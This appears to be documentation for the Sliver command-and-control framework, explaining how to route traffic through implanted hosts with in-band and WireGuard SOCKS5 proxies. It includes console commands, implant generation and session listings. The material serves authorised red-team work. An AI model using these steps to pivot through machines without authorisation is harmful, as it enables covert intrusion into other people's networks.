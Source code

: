 ## In-band SOCKS5

An in-band reverse SOCKS5 proxy is supported in Sliver versions 1.5 and later. Note that the SOCKS proxy feature can only be used on sessions (i.e., interactive sessions) and not beacons.

```
sliver (UGLY_SCARIFICATION) > socks5 add

[*] Started SOCKS5 127.0.0.1 1081  
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol
```

Simply upstream to `127.0.0.1:1081` from here, see `socks5 add --help` for more options.

## WireGuard SOCKS5

In order to use `wg-socks` you'll need a WireGuard client, any client should work. However, we recommend using `wg-quick`, which is included in the `wireguard-tools` package available on most platforms (see [WireGuard](https://www.wireguard.com/install/) for more platforms):

* MacOS `brew install wireguard-tools`
* Ubuntu/Kali `sudo apt install wireguard-tools`

First generate a WireGuard C2 implant (using `generate --wg`), and then start a WireGuard listener:

```
sliver > wg

[*] Starting Wireguard listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   wg    udp       53
```

Next, using Sliver you can create WireGuard client configuration using the `wg-config` command (you can use `--save` to write the configuration directly to a file):

```
sliver > wg-config

[*] New client config:
[Interface]
Address = 100.64.0.16/16
ListenPort = 51902
PrivateKey = eMdqQ5zEF9Oflj+7wfyFQZjES02rfSBfZEN701FzmmQ=
MTU = 1420

[Peer]
PublicKey = HNFS0FydHkuCtEFPPFb3b2IW7iSmFajRJ2qSjifidiM=
AllowedIPs = 100.64.0.0/16
Endpoint = <configure yourself>
```

The only thing in the configuration file you'll need to change is the `Endpoint` setting, configure this to point to the Sliver server's WireGuard listener, and ensure to include the port number (by default UDP 53). Generally this will be the same value you specified as `--lhost` when generating the binary.

Make sure your WireGuard listener is running and connect using the client configuration:

```
$ wg-quick up wireguard.conf
```

Now that your machine is connected to the Sliver WireGuard listener, just wait for an implant to connect:

```
sliver > sessions

ID  Name           Transport  Remote Address     Hostname     Username  Operating System  Last Check-in                  Health
==  ====           =========  ==============     ========     ========  ================  =============                  ======
1   STUCK_ARTICLE  wg         100.64.0.17:53565  MacBook-Pro  jdoe      darwin/amd64      Wed, 12 Apr 2021 19:21:00 CDT  [ALIVE]
```

Interact with the session, and use `wg-socks` to create a SOCKS proxy!


